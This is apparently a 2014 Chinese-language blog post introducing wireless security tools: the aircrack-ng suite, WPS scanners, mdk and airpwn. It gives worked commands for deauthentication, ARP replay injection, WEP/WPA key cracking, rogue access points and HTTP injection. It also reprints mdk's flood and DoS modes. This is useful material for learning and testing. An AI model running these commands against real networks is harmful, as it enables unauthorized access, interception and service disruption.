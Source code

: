```yaml
---
author: wangguohao
comments: true
date: 2014-07-12 13:40:32+00:00
layout: post
title: 无线网络安全工具初探
wordpress_id: 362
categories:
- network
---
```


###### wifi工具包: net-wireless/aircrack-ng





	
  * airbase-ng:中间人攻击，伪造ap并且将无线的流量转发到有线网络



	
  * aircrack-ng:主要用于wep以及wpa-psk的恢复，依赖于dump的数据包，此工具就可以自动测试是否可以破解



	
  * airdecap-ng:用来解开加密状态的数据包



	
  * airdecloak-ng:用于分析无线数据报文时过滤出指定无线网络数据



	
  * airdriver-ng:用户查看工具包支持的芯片



	
  * airdrop-ng:基于策略的无线Deauth的工具



	
  * aireplay-ng:在进行wep和wap-psk的密码恢复时候，可以根据需要创建特殊的无线数据包报文



	
  * airgraph-ng



	
  * airmon-ng:网卡监控模式



	
  * airodump-ng:抓取空中传播的数据包



	
  * airolib-ng:进行wpa彩虹表攻击时使用，用于建立特定的数据库文件



	
  * airserv-ng:可以将无线网卡连接到特定端口，为攻击时灵活调用准备



	
  * airtun-ng:



	
  * besside-ng



	
  * easside-ng: 用户wep的自动破解



	
  * packetforge-ng:主要用于构造特殊的数据包，用于无客户端的破解



	
  * tkiptun-ng:主要针对wpa tkip中启用qos的网络的注入



	
  * wesside-ng


文档链接[这里 ](http://www.aircrack-ng.org/doku.php#documentation)

使用套件的一般流程



	
  * 0x01:开启网卡的监控模式


参数说明：

    
    root@kail:~/wireless# airmon-ng start waln0





	
  * 0x02:抓取无线数据帧


参数说明：-w后面是写入文件，--ivs酌情使用，-c后面是信道

    
    root@kali:~/wireless# airodump-ng -w hg -c 6 mon0





	
  * 0x03:刺激ap生成需要的数据包


wep的Request注入攻击加快有效的数据包生成

参数说明：-3 (--arpreplay)就是攻击编号，-b后面是ap的MAC，-h后面是Client的MAC

    
    root@kali:~/wireless# aireplay-ng -3 -b 9C:21:6A:7E:2C:EC -h 64:5A:04:33:75:18 mon0


wap的Deauth攻击获取wpa的握手报文：

参数说明：-0 (--deauth)就是攻击编号,后面是数据包数量，-a后面是ap的MAC，-c后面是Client的MAC

    
    root@kali:~/wireless# aireplay-ng -0 1 -a 9C:21:6A:7E:2C:EC -c 64:5A:04:33:75:18 mon0





	
  * 0x04:对密码的破解


web的破解,后面是.cap或者ivs文件

    
    root@kali:~/wireless# aircrack-ng hg-01.cap


对于wpa的破解,-w 后面是字典文件

    
    root@kali:~/wireless# aircrack-ng -w /usr/share/dictionary/words hg-01.cap





	
  * 0x05:一些辅助工具


.cap提取.ivs文件：

    
    root@kali:~/wireless# ivstools --convert hg-05.cap hg-05.ivs


把.ivs文件合成一个：

    
    root@kali:~/wireless# ivstools  --merge hg-01.ivs hg-02.ivs hg-05.ivs hg.ivs
    


解密无线数据帧，参数说明：-l 不移除802.11头部

    
    root@kali:~/wireless# airdecap-ng -l -e ESSID -p password hg-01.cap


热点伪造

    
    root@kali:~/wireless# airbase-ng -c 6 -A -Z 2 mon0


无线跳板的工具

    
    ➜  ~  airserv-ng
    
      Airserv-ng 1.2 beta3 - (C) 2007, 2008, 2009 Andrea Bittau
      http://www.aircrack-ng.org
    
      Usage: airserv-ng <options>
    
      Options:
    
           -h         : This help screen
           -p  <port> : TCP port to listen on (default:666)
           -d <iface> : Wifi interface to use
           -c  <chan> : Channel to use
           -v <level> : Debug level (1 to 3; default: 1)
    


基于策略的无线Deauth，下面策略的语法

    
    #deny rules
    d/0a:00:27:00:00:03|dc:0e:a1:f4:3f:01
    Deny    AP              Client
    #------------------
    a/any|any
    



    
    ➜  wireless  airdrop-ng -i mon0 -t hg-01.csv -r rule


对抓取的数据包内容进行过滤（其实可以在dump时候用参数指定）

    
    ➜  wireless  airdecloak-ng --bssid 0a:00:27:00:00:03 --filters signal -i hg-01.cap





###### 关于wps的:




wps 扫描工具: [这里](http://www.sourcesec.com/Lab/wps_tools.tar.gz)





wpscan.py:扫描开启的无线路由器




wpspy.py:检测wps的状态




fix:如果运行出现：Caught exception sniffing packets: global name 'sniff' is not defined解决方案，修改一下python构造包的倒入，我下面的方法是简化的，但是意思一样




    
    #!/usr/bin/env python
    
    from sys import argv, stderr, exit
    from getopt import GetoptError, getopt as GetOpt
    from scapy.all import *
    





###### 无线dos工具:net-wireless/mdk



    
    b   - Beacon Flood Mode
          Sends beacon frames to show fake APs at clients.
          This can sometimes crash network scanners and even drivers!
    a   - Authentication DoS mode
          Sends authentication frames to all APs found in range.
          Too much clients freeze or reset some APs.
    p   - Basic probing and ESSID Bruteforce mode
          Probes AP and check for answer, useful for checking if SSID has
          been correctly decloaked or if AP is in your adaptors sending range
          SSID Bruteforcing is also possible with this test mode.
    d   - Deauthentication / Disassociation Amok Mode
          Kicks everybody found from AP
    m   - Michael shutdown exploitation (TKIP)
          Cancels all traffic continuously
    x   - 802.1X tests
    w   - WIDS/WIPS Confusion
          Confuse/Abuse Intrusion Detection and Prevention Systems
    f   - MAC filter bruteforce mode
          This test uses a list of known client MAC Adresses and tries to
          authenticate them to the given AP while dynamically changing
          its response timeout for best performance. It currently works only
          on APs who deny an open authentication request properly
    g   - WPA Downgrade test
          deauthenticates Stations and APs sending WPA encrypted packets.
          With this test you can check if the sysadmin will try setting his
          network to WEP or disable encryption.
    




###### 无线欺骗net-wireless/airpwn


通过无线数据包匹配的地方修改替换掉，并且伪装为AP发送数据

    
    ➜  ~  cat /usr/share/airpwn/conf/js_html 
    begin js_html
    match ^(GET|POST)
    ignore ^GET [^ ?]+\.(jpg|jpeg|gif|png|tif|tiff)
    response /usr/share/airpwn/content/js_html


Regular expression alike

    
    airpwn -c /usr/share/airpwn/conf/greet_html -i mon0 -d mac80211 -vvv -F


针对open的，-k 参数后面可以加 wep的密码，wap没有看到参数
